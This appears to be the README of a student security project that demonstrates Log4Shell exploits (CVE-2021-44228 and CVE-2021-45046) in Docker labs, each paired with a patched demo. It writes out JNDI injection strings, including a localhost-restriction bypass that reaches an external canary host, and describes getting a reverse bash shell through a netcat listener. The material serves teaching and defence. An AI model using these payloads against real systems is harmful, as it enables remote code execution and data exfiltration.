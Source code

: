 # CS4239 Group 6 Log4Shell Proof of Concept (PoC)  

This project is a is a further develops this PoC: [Github Link](https://github.com/kozmer/log4j-shell-poc)
CVEs covered:
1. CVE-2021-44228  
2. CVE-2021-45046

## Requirements

Needs a system with x86_64 (AKA amd64) chipset.
Needs the following software:
1. Docker  
2. docker-compose  

## Instructions to run PoCs and Patched Demos

All PoCs assume a starting directory which is the root of this repository.

### CVE-2021-44228

#### Background

If an application, usually a web application, used Log4j versions 2.14.1 and below, and directly logged user input, then they are vulnerable to Log4Shell exploits that perform JNDI lookup using Log4j's message lookup functionality, to at best, disclose information to attacker servers or cause Denial of Service (DoS) attacks, and at worst, perform a Remote Code Execution (RCE). This section will demonstrate a RCE PoC, and show how updating Log4j to v2.15.0 prevents the attack.

#### RCE PoC

##### Description

Demonstrates a RCE exploit that is possible on Log4j 2.14.1.

##### Instructions   

1. Run "cve-44228-rce/run.sh" in terminal. 2 more terminals will be spawned.
2. One terminal will be running the attacker LDAP server, the other terminal will be running a netcat listener on port 9001 to listen for incoming connections, and the original terminal (the one that you launched the command in) will be running the vulnerable web server.
![The 3 terminals](images/cve-44228_terminals.png)  
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Check the terminal that was running the netcat listener. A bash shell into the vulnerable application will now be open!

#### CVE-2021-44228 Patched Demo

##### Description

Demonstrates how the previous RCE exploit fails when the Log4j version that the application uses is updated to 2.15.0, as message lookups are no longer enabled by default.

##### Instructions 

1. Run "cve-44228-patched/run.sh" in terminal. 2 more terminals will be spawned.
2. One terminal will be running the attacker LDAP server, the other terminal will be running a netcat listener on port 9001 to listen for incoming connections, and the original terminal (the one that you launched the command in) will be running the vulnerable web server.
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Notice how the exploit does not work anymore, as the message lookup does not execute.

### CVE-2021-45046

#### Background

Log4j v2.15.0, which patched CVE-2021-44228 by introducing a number of safety features, still had some vulnerabilities that could be exploited. This section will detail PoCs that take advantage of various vulnerabilties. The major vulnerability in Log4j v2.15.0 was that while message lookups were disabled, context lookups were still enabled. Hence if any input from users were saved as context variables, then attackers still had a way to perform lookups on their chosen input. Both PoCs in this section utilize this vulnerability to be able to perform lookups.

This section will demonstrate these PoCs, along with how updating Log4Shell to v2.16.0 and above prevents the attacks.

#### PoC of sending JNDI requests to external servers

##### Description

Log4j v2.15.0 introduced a limitation of JNDI over LDAP to only being able to access hosts on *allowedLdapHosts* property, which only contains localhost by default. This PoC demonstrates a bypass of this limitation on certain systems, in this case Alpine Linux.

##### Instructions 

1. Run "cve-45046-bypass-localhost/run.sh" in terminal. A vulnerable web server will start up in the terminal.
2. Go to `https://webhook.site/` to obtain a webhook URL. It should generate a unique URL.
3. Go to `https://canarytokens.org/generate#`. Select DNS token, and put in the unique URL in second input box. Then, put any message in the last input box.
    ![](./images/cve-45046_canary.png)
4. Navigate to `https://localhost:8080`. Input the string, `${jndi:ldap://localhost#YOUR_CANARYTOKEN}`. There should be a new DNS request with the memo, "exploited cve-2021-45046" (or any other text message that you put).
    ![](./images/cve-45046_dns.png)
5. This shows a successful LDAP request to a website that is not locally hosted -- bypassing the localhost restriction implemented in Log4J 2.15.0

#### PoC of RCE

##### Description

Log4j v2.15.0 introduced limitations on classes that are received over LDAP protocol to Java primitive objects by default. This PoC demonstrates a bypass using a Time-of-check to Time-of-use (TOCTOU) attack.

##### Instructions 

1. Run "cve-45046-rce/run.sh" in terminal. 2 more terminals will be spawned.
2. One terminal will be running the attacker LDAP server, the other terminal will be running a netcat listener on port 9001 to listen for incoming connections, and the original terminal (the one that you launched the command in) will be running the vulnerable web server.
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Check the terminal that was running the netcat listener. A bash shell into the vulnerable application will now be open!

#### CVE-2021-45046 Patched Demo

##### Description

Demonstrates how the previous RCE exploit fails when the Log4j version that the application uses is updated to 2.16.0 and above (in this case v2.17.0), as JNDI functionality is now disabled by default, meaning that the JNDI lookups required for successful RCE exploit in the previous case will not run by default.

##### Instructions 

1. Run "cve-45046-patched/run.sh" in terminal. 2 more terminals will be spawned.
2. One terminal will be running the attacker LDAP server, the other terminal will be running a netcat listener on port 9001 to listen for incoming connections, and the original terminal (the one that you launched the command in) will be running the vulnerable web server.
3. Visit "localhost:8080" with your web browser  
4. Enter "${jndi:ldap://localhost:1389/a}" as Username, Password can be anything
5. Press Login.  
6. Notice how the exploit does not work anymore, due to JNDI lookup not being performed. 
